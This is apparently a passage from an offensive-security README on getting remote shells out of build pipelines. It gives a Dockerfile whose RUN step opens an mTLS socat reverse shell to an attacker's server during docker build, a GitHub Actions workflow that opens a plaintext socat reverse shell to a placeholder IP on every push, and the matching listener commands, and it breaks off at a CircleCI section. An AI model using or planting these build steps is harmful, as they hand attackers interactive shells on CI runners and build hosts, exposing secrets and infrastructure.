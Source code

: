Build this image and receive a mTLS authenticated connection to your SOCAT handler when the image is built via docker build. 
```
FROM ubuntu:latest

ENV RHOST yourserver.somewhere.com
ENV RPORT 443

RUN  apt update && apt install -y socat

COPY server.crt /server.crt
COPY client.pem /client.pem

RUN socat exec:'bash -li',pty,stderr,setsid,sigint,sane openssl-connect:$RHOST:$RPORT,cert=/client.pem,cafile=/server.crt 

```

To receive the shell from your SOCAT command above, run the following command on your jumpbox:
Make sure you copied *client.crt* and *server.pem* to the jumpbox.

```
socat file:`tty`,raw,echo=0 openssl-listen:443,reuseaddr,cert=server.pem,cafile=client.crt
```

### Github Actions Worklow to get a shell (plaintext)
Define a workflow by inserting the following contents into a YML file i.e go.yml. This workflow will trigger on a PUSH to the repo and execute the SOCAT command to your jumpbox.

```
name: Go
on: [push]
jobs:
  build:
    name: Build
    runs-on: ubuntu-latest
    steps:
    - name: Get A Shell
      run: |
        sudo apt install -y socat
        socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:x.x.x.x:55556
```

To receive the shell from your SOCAT command above, run the following command on your jumpbox:

```
socat file:`tty`,raw,echo=0 tcp-listen:55555 
```


### CircleCI Build Step to get a shell (plaintext)
Define a workflow by inserting the following contents into a YML file i.e go.yml. This workflow will trigger on a PUSH to the repo and execute the SOCAT command to your jumpbox. Also, you can just run your build step with SSH access which is available via the webui.
